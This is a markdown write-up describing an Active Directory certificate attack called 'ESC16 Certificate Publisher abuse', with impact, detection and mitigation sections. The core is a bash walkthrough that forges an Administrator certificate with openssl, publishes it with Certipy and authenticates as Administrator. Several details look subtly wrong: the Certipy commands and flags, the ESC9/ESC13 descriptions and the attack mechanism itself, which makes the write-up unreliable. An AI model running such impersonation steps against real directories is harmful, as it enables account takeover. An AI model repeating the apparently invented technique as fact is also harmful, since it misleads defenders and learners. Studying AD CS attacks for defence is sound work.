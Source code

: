 ## Impact:
You can **impersonate any user in Active Directory** by:
- Issuing a certificate with their UPN
- Publishing it to their object
- Authenticating to services using that certificate

This bypasses traditional template protections — even when templates are secure — because the attack leverages the **publishing pipeline** itself.

## Example:
```bash
# 1. Craft a certificate for Administrator
openssl req -new -newkey rsa:2048 -nodes -keyout admin.key -out admin.csr -subj "/CN=Administrator@domain.local"
openssl x509 -req -in admin.csr -CA attacker-ca.crt -CAkey attacker-ca.key -out admin.crt -days 365 -CAcreateserial

# 2. Create a PFX for Certipy
openssl pkcs12 -export -out admin.pfx -inkey admin.key -in admin.crt -passout pass:1234

# 3. Publish certificate to target user (via Certipy)
certipy-ad forge -u attacker -p 'password' -target 'Administrator' -ca 'ca.domain.local\CA-NAME' -publish -pfx admin.pfx

# 4. Authenticate as Administrator
certipy-ad auth -pfx admin.pfx
```

## To Identify:
- Enumerate users/groups with the `Certificate Publisher` role on each CA:
  ```bash
  certipy-ad find -u user -p pass -dc-ip <ip> --vulnerable
  ```
- Look for any unusual `userCertificate` entries in AD
- Monitor for certificate issuance events (e.g., 4886/4887 in Event Logs)

## Mitigation:
- **Audit and restrict `Certificate Publisher` rights**
  - Only CA and enrollment admins should have this.
- Enforce strong identity validation on cert usage (e.g., smartcard enforcement, SAN checks).
- Monitor certificate publishing and certificate usage (especially PKINIT auth).
- Disable unnecessary certificate-based authentication methods if not used.

## Related:
- This is especially dangerous when combined with **template duplication (ESC13)** or **misused CAs (ESC9)**.
- See: [Certipy Wiki – ESC16](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16---certificate-publisher-abuse)

---